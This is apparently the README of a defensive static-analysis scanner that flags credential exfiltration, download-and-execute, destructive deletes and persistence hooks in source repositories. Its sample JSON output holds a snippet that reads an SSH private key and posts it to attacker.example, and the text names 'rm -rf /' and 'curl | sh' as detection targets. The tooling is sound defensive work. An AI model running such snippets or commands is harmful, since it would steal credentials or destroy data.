

# Shield Code Scanner

Local **static** analysis for source repositories. It helps a reviewer see
*suspicious combinations of behavior* — credential access plus a network
send, download-and-execute, destructive deletes of `/` or `$HOME`,
persistence installs — as a short story, not a pile of unrelated rows.

It does **not** decide that a repository is malicious.

[](#requirements)
[](#requirements)
[](.github/workflows/ci.yml)
[](#diff-mode-and-sarif)
[](LICENSE)

```bash
python scanner.py /path/to/project
```

JSON on stdout. Exit `0` if nothing new, `1` if new findings, `2` on error.

---

## Why this exists

Most “secret scanners” grep for `AKIA` and `-----BEGIN`. That misses the
interesting case: a private key is *read*, maybe transformed, then *sent*.
Most SAST tools need a language server, a database, or a cloud account.

Shield is a single-directory, stdlib-only engine you can drop into CI or
run on a laptop. Python is parsed with `ast` (never executed). Manifests
are walked as JSON / TOML. Findings that share a taint source are grouped
into one **incident** with a destination hint — hardcoded IP, paste host,
webhook, or first-party API — so triage is a story, not a spreadsheet.

No URL is fetched. No scanned file is imported, compiled, or run.

---

## Features

| | |
| --- | --- |
| **Python AST taint** | `from os import getenv`, `self.token = ...`, `subprocess.run(cmd, **{"shell": True})` — not just `os.getenv(` on one line |
| **Structured manifests** | Real `json` / `tomllib` walks of `package.json` and `pyproject.toml` (scripts, Husky, PDM, Poe, Hatch). Minified files still parse |
| **Incidents** | Cluster by taint source. Chain: credential read → transform → sink. Destination tagged from literals only |
| **Cross-file flow** | Static export/import index. A getter in `secrets.py` can taint a POST in `sync.py` |
| **CI-ready** | Deterministic JSON, SARIF 2.1.0, committed baseline, `--since` diff mode, inline `# code-scanner: ignore` |
| **Safe by construction** | Stdlib only. Bounded reads. Binaries skipped. One bad file cannot abort the scan |



---

## Security boundary

This is a static analysis aid, not an antivirus engine.

**Will**

- Recursively read selected source and config files
- Report advisory findings (file, line, pattern, severity, snippet)
- Group related findings into incidents with a destination hint
- Skip binaries, oversized files, and unreadable files without aborting

**Will not**

- Execute, import, compile, or evaluate scanned code
- Invoke shells, package managers, or `make` from the repository
- Contact URLs found in the repository
- Modify, delete, quarantine, or block files
- Claim with certainty that code is malicious

Findings require human verification.

---

## Requirements

- Python 3.9+
- Standard library only (no third-party runtime dependencies)
- `tomllib` on 3.11+; Python 3.9–3.10 uses a conservative TOML subset parser for hook tables

---

## Quick start

```bash
python scanner.py /path/to/project
python scanner.py /path/to/project --output report.json
python scanner.py /path/to/project --format sarif --output report.sarif
python scanner.py /path/to/project --baseline scanner-baseline.json
python scanner.py /path/to/project --update-baseline
python scanner.py /path/to/project --since origin/main --format sarif --output report.sarif
python scanner.py /path/to/project --verbose
```

`--verbose` diagnostics go to stderr so stdout stays machine-readable.

### Exit codes

| Code | Meaning |
|------|---------|
| 0 | no **new** findings |
| 1 | one or more new findings |
| 2 | scanner or input error |

Exit status does not encode severity. Inline suppressions, a committed
baseline, and `--since` are applied before the exit code is chosen, so
`1` means “this run introduced something unaccepted,” not “the tree has
ever contained `curl \| sh`.”

---

## Output

Reviewers should read **`incidents`**. Each one is one story. `findings`
stay in the report so baselines, SARIF, and suppressions keep working.

```json
{
  "status": "flagged",
  "scanner_version": "1.2.0",
  "scanned_files": 142,
  "skipped_files": 3,
  "findings": [
    {
      "file": "exfil_ssh.py",
      "line": 8,
      "pattern": "sensitive_file_exfiltration",
      "severity": "critical",
      "description": "Suspicious credential exfiltration pattern detected: ...",
      "code_snippet": "with open(os.path.expanduser(\"~/.ssh/id_rsa\")) as fh:\n    key = fh.read()\nrequests.post(\"https://attacker.example/keys\", data=key)",
      "source_line": 7,
      "source_kind": "sensitive_file",
      "sink_kind": "network",
      "destination": "remote_host",
      "destination_hint": "attacker.example",
      "flow": [
        "exfil_ssh.py:6 credential read",
        "exfil_ssh.py:8 network sink"
      ]
    }
  ],
  "incidents": [
    {
      "id": "8e5d01fd6cde",
      "severity": "critical",
      "pattern": "sensitive_file_exfiltration",
      "file": "exfil_ssh.py",
      "line": 8,
      "chain": [
        "exfil_ssh.py:6 credential read",
        "exfil_ssh.py:8 network sink"
      ],
      "patterns": [
        "sensitive_file_access",
        "sensitive_file_exfiltration"
      ],
      "destination": "remote_host",
      "destination_hint": "attacker.example"
    }
  ]
}
```

`status` is `clean` when there are zero **reported** findings, otherwise
`flagged`. Reports are deterministic: no timestamps, stable order, and
`/` path separators even on Windows.

When findings are dropped by an ignore comment, a baseline, or `--since`,
the report may include an `ignored` object with `inline`, `baseline`,
and/or `unchanged` counts.

### Destination hints

Classified from string literals already in the file. The hint is **host
only** — webhook paths are never copied into the report.

| Kind | Example literal |
|------|-----------------|
| `hardcoded_ip` | `http://203.0.113.10/collect` |
| `paste_host` | `https://pastebin.com/raw/…` |
| `webhook` | `https://discord.com/api/webhooks/…` |
| `first_party_api` | `https://api.openai.com/v1/…` |
| `remote_host` | any other `http(s)` host |

---

## What is scanned

Code extensions: `.py`, `.js`, `.ts`, `.jsx`, `.tsx`, `.sh`, `.bash`,
`.zsh`, `.rb`, `.go`, `.rs`, `.swift`, `.bat`, `.cmd`, `.ps1`, `.vbs`.

Important names and config extensions such as `package.json`,
`pyproject.toml`, `requirements.txt`, `Dockerfile`, `.env`, `.env.*`,
`*.yml`, `*.json`, and `*.toml` are also inspected.

`scanner-baseline.json` is not scanned. These directories are skipped
entirely (edit `SKIP_DIRECTORIES` in `utils.py` to extend the list):

`.git`, `node_modules`, `venv`, `.venv`, `env`, `.env`, `__pycache__`,
`.pytest_cache`, `.mypy_cache`, `.tox`, `dist`, `build`, `target`,
`vendor`, `coverage`.

Default maximum file size is 5 MB (`--max-file-size` overrides).

---

## How detection works

Rules live in `rules.py` as:

- **signals** — atomic matches (secret access, network, exec, …)
- **combo rules** — sink plus taint (secret flowing into a POST, download flowing into `exec`, …)
- **direct rules** — high-signal single lines (`rm -rf /`, `curl | sh`, encoded PowerShell)
- **file rules** — structured parsers (`package.json`, `pyproject.toml`)

### Python: `ast`, not paren-counting

Regex plus “group lines until parentheses close” misses import aliases,
attribute writes, and kwargs unpacking. For `.py` files the engine calls
`ast.parse` (stdlib, no execution) and walks statements:

```python
from os import getenv

class Sender:
    def run(self):
        self.token = getenv("API_KEY")
        requests.post(url, data=self.token)

subprocess.run(cmd, **{"shell": True})
```

Those are the same combos as `os.environ["API_KEY"]` on one line. If the
file is not valid Python, the lexical path is used as a fallback.

Cross-file taint still uses a static export/import index (still no
execution):

```python
# secrets.py
def get_api_key():
    return os.environ["API_KEY"]

# sync.py
from secrets import get_api_key
key = get_api_key()
client.post(url, data=key)
```

### Manifests: parse, then walk

`package.json` is `json.loads`, then scripts **and** tool hooks
(`husky.hooks`, `simple-git-hooks`, `lint-staged`, `config.ghooks`).
`pyproject.toml` is `tomllib` (or a subset parser on 3.9–3.10), then
`tool.pdm.scripts`, `tool.poe.tasks`, `tool.taskipy.tasks`, and Hatch
env scripts. A minified one-line `package.json` is still a document, not
a regex target.

### Incidents: one story per taint source

`~/.ssh/id_rsa` access and the later `requests.post` used to be two
rows. They are still two detections — baselines and ignore comments do
not change — but they become one incident: credential read → network
sink, tagged `remote_host` / `attacker.example`.

### Assumptions

- Isolated keywords (`rm`, `eval`, `requests.get`, `os.environ`) are not
  treated as malicious by themselves.
- Environment-variable reads are only escalated when the value appears to
  reach a network sink, unusual write, or dynamic execution.
- `requests.get` / `fetch` used as a normal API call is not a “download”.
  Downloads are file writes, pipe-to-shell, or feeding bytes into `exec` / `IEX`.
- `rm -rf ./build` and `rm -rf "$BUILD_DIR"` are treated as cleanup.
- `rm -rf /`, `rm -rf ~`, and `rm -rf "$HOME"` are reported as critical.
- Ordinary npm / PDM lifecycle scripts (`tsc`, `husky install`, `node-gyp rebuild`)
  are not reported; download-and-execute or credential-sending hooks are.
- Base64 used as a data format, without execution, is not reported.
- `subprocess.run(["git", "status"], check=True)` is not reported.
- Destination labels use hostnames already in the source. Nothing is fetched.
- Cross-file taint uses a static index of module-level bindings and
  functions that return tainted values, plus import/require resolution.
  Dynamic imports, `importlib`, and `getattr` are out of scope.
- Shell-family files also use a 25-line ambient window because assignment
  tracking is weaker there.
- Wording is always advisory (“suspicious pattern detected”).

False positives are expected. Severity reflects combination strength, not
a verdict.

---

## Baseline, suppressions, SARIF

### Baseline

Commit `scanner-baseline.json` in the repository root to record findings
a reviewer has accepted. Each entry is identified by a SHA-256 of
`file + line + pattern`:

```bash
python scanner.py . --update-baseline
```

`--baseline FILE` selects another path; `--no-baseline` skips it.

### Inline suppressions

A comment on the finding line, the previous line, or any line of a
grouped statement accepts that match:

```python
# code-scanner: ignore api_key_exfiltration
requests.post(url, data=secret)
```

```javascript
fetch(url, { method: "POST", body: key }); // code-scanner: ignore api_key_exfiltration
```

`# code-scanner: ignore` (no pattern) ignores every finding on that
line. `# code-scanner: ignore-next-line pattern` applies to the next
non-blank line. The same directive works with `//` and `/* */` in
JavaScript-family files.

### Diff mode and SARIF

`--since REF` still scans the full tree (so cross-file taint works) but
only **reports** findings in files `git diff` lists as changed since
`REF` (plus untracked files). Typical CI:

```bash
python scanner.py . --since origin/main --format sarif --output report.sarif
```

`--format sarif` writes SARIF 2.1.0 so GitHub and GitLab can annotate
the exact lines. Incident destination and flow are attached as SARIF
properties. Combined with a baseline, exit code `1` is “new findings on
this change set.”

---

## Adding a rule

1. Open `rules.py`.
2. Add a `SignalDef`, `DirectRule`, `ComboRule`, or `FileRule`.
3. Keep the `name` stable; it is the `pattern` ID in reports and baselines.
4. Restrict `languages` so Python regexes do not run on unrelated files.
5. Add a true-positive fixture and, when relevant, a benign counter-example
   under `tests/fixtures/`.

Python-specific shapes (aliases, attributes, `**kwargs`) belong in
`python_ast.py`. Manifest hooks belong in `manifests.py`. The scan engine
does not need to change for a new combo or direct rule.

---

## Tests

```bash
python -m unittest discover -s tests -v
```

CI runs the same command on Python 3.9 and 3.12
([`.github/workflows/ci.yml`](.github/workflows/ci.yml)).

---

## Layout

```text
.
├── scanner.py      # CLI and analysis engine
├── python_ast.py   # stdlib ast walker (parse only)
├── manifests.py    # package.json / pyproject.toml walks
├── incidents.py    # clustering + destination hints
├── rules.py        # signals, combo/direct/file rules
├── models.py       # Finding / Incident / ScanReport
├── utils.py        # traversal, binary detection, snippets
├── baseline.py     # fingerprints, ignore comments, --since
├── sarif.py        # SARIF 2.1.0 renderer
├── tests/
│   ├── test_scanner.py
│   ├── test_baseline_ci.py
│   ├── test_ast_incidents.py
│   └── fixtures/
│       ├── malicious/
│       └── benign/
├── .github/workflows/ci.yml
├── README.md
├── LICENSE
└── pyproject.toml
```

---

## License

MIT. See [LICENSE](LICENSE).
